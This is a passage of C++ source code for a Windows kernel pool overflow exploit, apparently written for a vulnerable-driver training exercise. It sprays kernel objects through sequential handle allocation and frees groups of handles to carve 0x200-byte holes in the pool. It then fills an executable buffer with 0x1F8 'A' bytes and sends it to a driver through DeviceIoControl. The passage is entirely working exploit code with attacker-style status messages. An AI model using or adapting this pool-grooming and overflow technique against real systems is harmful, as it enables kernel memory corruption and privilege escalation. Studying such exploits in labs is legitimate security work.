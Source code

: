 ```cpp

        sequential_handles.push_back(result);
    }

    cout << "[>] Sequential spray complete.\n";

    cout << "[>] Poking 0x200 byte-sized holes in our sequential allocation...\n";
    for (int i = 0; i < sequential_handles.size(); i = i + 0x16) {
        for (int x = 0; x < 8; x++) {
            BOOL freed = CloseHandle(sequential_handles[i + x]);
            if (freed == false) {
                cout << "[!] Unable to free sequential allocation!\n";
                cout << "[!] Last error: " << GetLastError() << "\n";
            }
        }
    }
    cout << "[>] Holes poked lol.\n";





    ULONG payload_len = 0x1F8;

    LPVOID input_buff = VirtualAlloc(NULL,
        payload_len + 0x1,
        MEM_RESERVE | MEM_COMMIT,
        PAGE_EXECUTE_READWRITE);

    memset(input_buff, '\x41', payload_len);

    cout << "[>] Sending buffer size of: " << dec << payload_len << "\n";

    DWORD bytes_ret = 0;

    int result = DeviceIoControl(hFile,
        IOCTL,
        input_buff,
        payload_len,
        NULL,
        0,
        &bytes_ret,
        NULL);

    if (!result) {

        cout << "[!] DeviceIoControl failed!\n";

    }

    return 0;
}
```
